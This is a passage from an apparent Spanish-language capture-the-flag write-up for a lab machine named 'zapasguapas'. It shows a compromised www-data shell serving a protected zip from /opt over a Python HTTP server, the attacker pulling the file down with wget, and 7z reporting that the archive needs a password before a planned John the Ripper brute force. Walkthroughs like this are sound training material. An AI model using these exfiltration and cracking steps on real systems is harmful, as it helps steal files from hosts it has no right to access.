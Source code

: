 Si revisamos la ruta: **( /opt )**
```bash
-rw-r--r--  1 proadidas proadidas  266 Apr 23  2024 importante.zip
```

Asi mismo verificamos si existe el binario de **python** para transferirnos este archivo:
```bash
www-data@zapasguapas:/opt$ which python3
/usr/bin/python3
```

Ahora desde la maquina victima nos montamos un servidor para dejar disponible ese comprimido
```bash
www-data@zapasguapas:/opt$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ..
```

Ahora desde nuestar maquina atacante realizamos la peticion para descargarnos ese archivo:
```bash
wget http://192.168.100.35:8080/importante.zip
--2025-08-09 23:23:11--  http://192.168.100.35:8080/importante.zip
Connecting to 192.168.100.35:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 266 [application/zip]
Saving to: ‘importante.zip’

importante.zip  100%[================================>]     266  --.-KB/s    in 0.006s  

2025-08-09 23:23:11 (40.1 KB/s) - ‘importante.zip’ saved [266/266]
```

Ahora que tenemos ese archivo, verificamos si no cuenta con contrasena, si es que tiene tendremos que realizar un ataque de fuerza bruta con **JohnTheReaper**
Verificamos que necesitamos realizar fuerza bruta sobre ese archivo:
```bash
7z x importante.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:16 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 266 bytes (1 KiB)

Extracting archive: importante.zip
--
Path = importante.zip
Type = zip
Physical Size = 266

Enter password (will not be echoed):
ERROR: Wrong password : password.txt
Sub items Errors: 1
Archives with Errors: 1
Sub items Errors: 1
```
